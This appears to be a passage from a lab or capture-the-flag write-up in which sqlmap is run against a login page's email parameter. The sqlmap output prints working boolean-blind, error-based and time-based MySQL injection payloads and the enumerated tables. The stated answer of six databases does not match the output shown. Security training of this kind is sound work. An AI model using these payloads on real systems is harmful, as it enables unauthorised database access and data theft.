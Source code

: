**Question 1**
How many databases are available in this web application?

**Answer:** `6`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' -D ai --tables --level=5
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:46:03 /2025-10-16/

[18:46:03] [INFO] resuming back-end DBMS 'mysql' 
[18:46:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:46:03] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:46:03] [INFO] fetching tables for database: 'ai'
[18:46:03] [INFO] retrieved: 'user'
Database: ai
[1 table]
+------+
| user |
+------+

[18:46:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:46:03] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:46:03 /2025-10-16/

root@ip-10-10-129-125:~# 
```

